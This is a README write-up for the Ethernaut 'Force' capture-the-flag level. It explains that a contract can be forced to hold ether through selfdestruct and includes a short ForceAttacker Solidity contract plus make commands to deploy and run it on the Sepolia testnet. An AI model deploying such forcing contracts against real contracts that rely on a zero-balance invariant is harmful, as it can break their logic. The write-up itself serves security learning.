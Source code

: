 # Level 7: Force

**Level Page**: [See on Ethernaut](https://ethernaut.openzeppelin.com/level/0xb6c2Ec883DaAac76D8922519E63f875c2ec65575)

**Description**:

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

Fallback methods
Sometimes the best way to attack a contract is with another contract.

`Text after completing the level`:

In solidity, for a contract to be able to receive ether, the fallback function must be marked payable.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant address(this).balance == 0 for any contract logic.

**Code**

Code to be exploited:

<details>
<summary>See Code</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ 
}
```

</details>

# Findings

This level was only to show that even if the contract doesn't have a `fallback` or `receive` function it can still receive ethers if another contract self destructs, therefore, forcing all ether balance to another contract. And this feature can be used to attack another contract.

# Attack

**Description**: To explore the use of `selfdestruct` function, I created another contract `ForceAttacker` that uses this function to force sending ether to the `Force` contract. This is part of the `ForceAttacker.sol` code:

```javascript
contract ForceAttacker {
  address force;

  constructor(address _force) {
    force = _force;
  }

  function attack() external payable{
    selfdestruct(payable(force));
  }
}
```

So the order to attack the `Force` contract is:

1. Deploy the `ForceAttacker` with `make deploy`
2. Attack the `Force` contract with `make attack` (remember to paste the `ForceAttacker` address to `ATTACKER_CONTRACT` in the `.env` file)
3. Submit the level `make submit`

**Instance used**: [0x3c504f9f7F610c7b320Fef589b52062daF6aa527](https://sepolia.etherscan.io/address/0x3c504f9f7F610c7b320Fef589b52062daF6aa527)

**Attacker Contract**: [0x39EF55DA2FC1C261a9742406a82748023A60b394](https://sepolia.etherscan.io/address/0x39EF55DA2FC1C261a9742406a82748023A60b394)

**Attack Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0x1e0e4d5724f60b78eec4eb6ec65ffd30274c0f8e0c5490148b1758e2d8e4bb14)

**Level Completed Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0xc1432784a528db913232053f18dd809528a7b74e785dafddca63efed21200d2f)

# Getting started

## Build

```bash
make build
```

## Test

```bash
make test
```

## Deploy attacker contract (testnet)

```bash
make deploy
```

## Attack (testnet)

```bash
make attack
```

## Submit level (testnet)

```bash
make submit
```

## Check if you completed the level (testnet)

`true` - You completed the level
`false` - You didn't complete the level

```bash
make check
```